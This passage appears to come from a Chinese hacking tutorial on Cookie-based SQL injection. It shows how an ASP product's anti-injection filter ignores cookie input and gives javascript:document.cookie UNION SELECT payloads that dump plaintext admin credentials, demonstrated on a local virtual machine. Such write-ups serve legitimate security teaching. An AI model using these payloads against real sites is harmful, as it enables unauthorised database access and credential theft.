

图1

看到这么长的解释，台下的叉子们都感觉到有点儿发蒙，txcbg 赶紧说道：“上面的解释是有点儿长，但大家只需要对它有个大概的认识就行了，下面我来说下 Cookie 注入是怎样产生的。”

ASP 网站是动态网站，很多信息都保存在数据库中，访问同一个页面，后面跟的参数不同则显示的内容也会不同，比如我们访问“http://jn.sdo.com/web2.0/news.asp?id=820”和“http://jn.sdo.com/web2.0/news.asp?id=821”（id 后面跟的数字不同），它们显示的内容明显不同，如图1、图2。



图2

通过 `Request.QueryString` 获得客户端提交的数据叫 GET 提交，通过 `Request.Form` 客户端提交数据叫 POST 提交。没有对通过 GET 和 POST 方式提交的数据进行过滤，或者没有过滤好所产生的注入，就是我们以前介绍过的普通注入；而通过 Cookie 进行数据提交时，没有对提交的数据过滤或者没有过滤好所产生的注入，就是 Cookie 注入。

可能有一些菜鸟们不明白，我们在菜鸟学堂介绍注入攻击的时候，为什么没有介绍 Cookie 注入。这是因为 Cookie 注入和以前介绍过的注入还是有很大不同的，Cookie 注入漏洞相对于普通的注入漏洞更难以被发现，利用起来也相对要麻烦一些。

在当前这个脚本注入攻击横行的年代，许多网站为了自身的安全，都对注入攻击进行了相应的防范。但是并不是每个站长都会编写防注入代码，因此就使用了网上公布的通用防注入程序。通用防注入程序可以防范常用的通过 GET、POST 方式提交的注入攻击，但有的通用防注入程序过滤并不严格，导致了我们可以进行 Cookie 注入。为了更直观地给大家介绍 Cookie 注入，我从网上找到了一个存在 Cookie 注入漏洞的程序——宜昌电脑网络公司 v2.8 版，我在虚拟机的 Windows 2003 系统中把这套程序架设了起来，访问地址为 `http://127.0.0.1/`，其界面如图3所示。



存在 Cookie 注入漏洞的文件是网站根目录下的 `news_more.asp`，关键代码如下：

```asp
<!--#include file="open.asp"-->
<%
id=Request("id")
if id="" then
  Response.end
end if
%>
<%
SQL="Select * from product Where id="&id
Set rs=Server.CreateObject("ADODB.RecordSet")
rs.open SQL,con,1,1
%>
```

通过 `id=Request("id")` 获得 id 的值后只判断了非空，并没有经过过滤（起码通过这里的代码没有看到明显的过滤）就带入了 SQL 查询，似乎存在注入漏洞。我们找到一个链接 `http://127.0.0.1/news_more.asp?id=1094`，用啊D注入工具检测了一下，提示“这个链接不能 SQL 注入！”，如图4。在链接地址的后面添加个 `'`，结果弹出了“您进行了非法操作！请不要在参数中包含非法字符尝试注入！”的提示，如图5，看来有防注入代码。



那么防注入代码到底在哪儿呢？在 `news_more.asp` 文件中没有看到，但文件的第一句 `<!--#include file="open.asp"-->` 却引起了我的注意，它的意思是包含 `news_more.asp` 同目录下的 `open.asp` 这个文件。防注入代码是不是在 `open.asp` 这个文件中呢？使用记事本打开 `open.asp`，果然发现了防注入代码，如图6。



通过防注入代码给出的注释，我们可以看到程序对通过 GET 和 POST 提交方式进行的注入都进行了过滤，啊D只能通过 GET 方式提交注入代码，自然也就无法注入了。细心的读者有没有注意到，`open.asp` 这个文件中的防注入代码只过滤了通过 GET 和 POST 提交方式进行的注入，但却没有对通过 Cookie 方式提交的内容进行过滤，而 `id=Request("id")` 中的 id 又是通过 `Request("name")` 的形式获取客户端提交数据的，满足 Cookie 注入的条件，下面我们就来进行 Cookie 注入。

首先访问首页，因为我们没有给它提交后面的参数，如图7。在浏览器的地址栏中输入以下代码：`javascript:alert(document.cookie="id="+escape("1094"))`，然后回车，就会弹出一个“id=1094”的对话框，如图8。点击“确定”后刷新一下页面，成功地显示出了内容，如图9。

说下 Cookie：通常由服务器端的程序通过 HTTP 请求和响应头发送给浏览器，但是利用 JavaScript 可以在本地浏览器中设置 Cookie，格式为“name=value”。name 属性是指定 Cookie 数据项的名称，value 是该名称对应的值。它是一个字符串，也可以是由一系列字符组成。name 和 value 中不能包含分号、逗号及空格，注入语句中往往有逗号和空格，所以我们要用到 `escape()` 函数对它们进行编码。











这和直接访问 `http://127.0.0.1/news_more.asp?id=1094` 时的页面是完全一样的，如图10，说明我们通过 Cookie 向 `news_more.asp` 提交了参数“id=1094”。

来给出进行 Cookie 注入时的语句：`javascript:alert(document.cookie="id="+escape("这里就是asp?id=xx后面xx代表的数值) and (这里是注入攻击代码"))`。我们是通过 JavaScript 对 Cookie 进行操作的，为了方便大家的理解，我简单解释一下上面的语句。

“alert()”是显示信息对话框的 `alert()` 方法，它生成的是一个独立的小窗口，称作对话框，用来显示一条信息和一个按钮；“document.cookie”，我们在处理 Cookie 时，JavaScript 将它保存为 document 对象的一个属性，其属性名称是 cookie，利用这个属性，我们可以创建和读取 Cookie 数据。在程序中可以使用 `alert(document.cookie)` 调用当前页面的 Cookie 数据项值。在我们启动浏览器打开页面后，如果存在相应的 Cookie，那么它就被装入到 document 对象的 cookie 属性中。`document.cookie` 属性采用“name=value”对应方式保存各个 Cookie 数据项值；`escape()` 函数将字符串中所有的非字母数字字符转换为使用字母数字表示的等价字符，具有编码字符串的功能。

来看一条比较直观的注入语句：`javascript:alert(document.cookie="id="+escape("1094 and 1=1"))`，在浏览器的地址栏中回车，然后刷新，页面显示正常。把注入语句换成 `javascript:alert(document.cookie="id="+escape("1094 and 1=2"))`，页面显示不正常，如图11。

下面我们就针对宜昌电脑网络公司 v2.8 版进行 Cookie 注入。通过查看数据库，发现存放 `news_more.asp` 所显示内容的表 `product` 一共包括 `id、pro_name、img、title、content、pub_date` 六个字段，如图12。存放后台管理员用户名和密码的表是 `admin`，包括 `id、admin、pwd` 三个字段，密码没有经过加密，是明文存放的，如图13。

构造如下的注入语句：

```javascript
document.cookie="id="+escape("1094 and 1=2 union select 1,2,3,4,5,6 from admin")
```

发现 4、6、5 处都可以用来显示信息，我决定使用 4 和 6 处来显示。继续构造如下的注入语句，直接爆出了管理员的用户名和密码（分别是 admin 和 admin），如图15。

```javascript
javascript:alert(document.cookie="id="+escape("1094 and 1=2 union select 1,2,3,admin,5,pwd from admin"));
```



